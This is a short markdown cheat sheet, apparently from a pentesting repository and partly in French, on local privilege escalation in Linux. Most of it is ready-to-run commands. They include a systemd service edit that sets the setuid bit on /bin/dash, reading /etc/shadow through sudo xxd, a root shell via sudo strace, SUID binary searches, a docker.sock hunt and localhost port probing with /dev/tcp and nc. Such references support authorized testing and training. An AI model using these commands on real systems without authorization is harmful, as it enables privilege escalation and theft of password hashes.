 # Local Privilege Escalation Linux

## Tools 

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

## Systemd

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

## Programms running

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

## Services listening

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

## Docker

```bash
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

## Binaries enum

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

## Hash dump

```bash
sudo xxd /etc/shadow | xxd -r
```

## Strace root

```bash
sudo strace -o /dev/null /bin/sh
```

